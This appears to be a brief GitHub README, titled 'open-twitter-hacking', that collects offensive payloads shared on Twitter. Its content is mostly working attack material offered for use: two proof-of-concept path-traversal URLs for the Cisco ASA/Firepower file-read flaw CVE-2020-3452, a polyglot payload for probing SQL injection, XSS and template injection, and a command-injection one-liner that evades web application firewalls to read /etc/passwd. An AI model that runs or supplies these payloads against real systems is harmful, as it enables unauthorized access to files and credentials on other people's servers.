 # open-twitter-hacking

### CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower
```
Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.
For example to read "/+CSCOE+/portal_inc.lua" file.
https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```
```
POC #2: 
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```
### Test SQLi + XSS + SSTI with the same payload use
```
'"><svg/onload=prompt(5);>{{1234*6543}}
```
### Here's a command injection WAF bypass that works:

```
cat /e${hahaha}tc/${heywaf}pas${catchthis}swd
```
### JAVA Serialization Vulnerability

```
https://medium.com/bugbountywriteup/a-comprehensive-guide-to-java-serialization-vulnerability-18fad6e37b64
```
